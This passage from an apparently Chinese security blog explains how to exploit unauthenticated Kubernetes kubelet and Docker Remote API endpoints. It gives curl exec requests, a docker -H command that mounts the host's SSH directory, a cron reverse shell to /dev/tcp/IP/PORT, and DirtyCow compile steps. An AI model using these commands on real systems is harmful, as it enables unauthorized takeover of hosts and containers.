 获取到 namespace、pod、container 的信息后，执行如下请求。实现命令执行

```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://kube-node-here:10250/exec/<namespace>/<podname>/<container-name>?command=touch&command=hello\_world&input=1&output=1&tty=1"


```

本地搭建测试环境进行复现，从返回结果中得到 websocket 地址

![](https://blog.riskivy.com/wp-content/uploads/2019/02/22.png)

采用 wscat 进行 websocket 连接。wscat 是一个用来连接 websocket 的命令行工具，由 nodejs 开发，通过 npm 进行安装 `npm install -g wscat`

![](https://blog.riskivy.com/wp-content/uploads/2019/02/23.png)

### 4\. Docker Engine

#### 未授权访问 Rest API

kubernetes 的容器编排技术进行管理构成的 docker 集群，kubernetes 是 google 开源的容器管理系统，实现基于 Docker 构建容器，利用 kubernetes 可以很方便的管理含有多台 Docker 主机中的容器，将多个 docker 主机抽象为一个资源，以集群方式管理容器。

当 docker 配置了 Rest api, 我们可以通过路径 / containers/json 获取服务器主机当前运行的 container 列表。找到存在未授权访问的目标主机，发现已经被安装门罗币矿机。如下图所示：

![](https://blog.riskivy.com/wp-content/uploads/2019/02/14.png)

通过远程访问接口，获得容器访问权限。启动容器时通过挂载根目录到容器内的目录，获取宿主机权限。输入如下指令，获取容器操作权限

```
docker -H tcp://xxx.xxx.xxx.xxx:2375 run -it -v /root/.ssh/:/mnt alpine /bin/sh


```

![](https://blog.riskivy.com/wp-content/uploads/2019/02/18.png)

为实现对宿主机的控制，使用方法如下：

1.  ssh 公钥到跟文件，进而无密码 ssh 访问宿主机命令行
2.  任务计划反弹 shell，`echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/IP/PORT 0>&1\n\n" >> /mnt/root`

#### 风险漏洞

容器和宿主机是共用内核的，所以如果宿主机的 Linux 内核没升级的话，利用 DirtyCow(CVE-2016-5195) 漏洞可获取宿主机 root 权限。

漏洞影响范围：2.x~4.83

利用方法：

下载提权 root 的 exploit `https://github.com/FireFart/dirtycow`

使用 gcc -pthread dirty.c -o dirty -lcrypt 命令对 dirty.c 进行编译，生成一个 dirty 的可执行文件
